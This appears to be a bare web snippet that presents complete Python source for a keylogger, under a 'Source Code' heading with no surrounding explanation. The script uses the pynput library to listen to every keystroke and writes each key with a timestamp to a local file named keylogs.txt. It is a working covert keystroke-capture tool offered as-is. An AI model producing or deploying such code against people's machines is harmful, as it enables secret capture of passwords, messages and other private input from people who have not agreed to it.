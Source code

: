 Source Code:


from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()

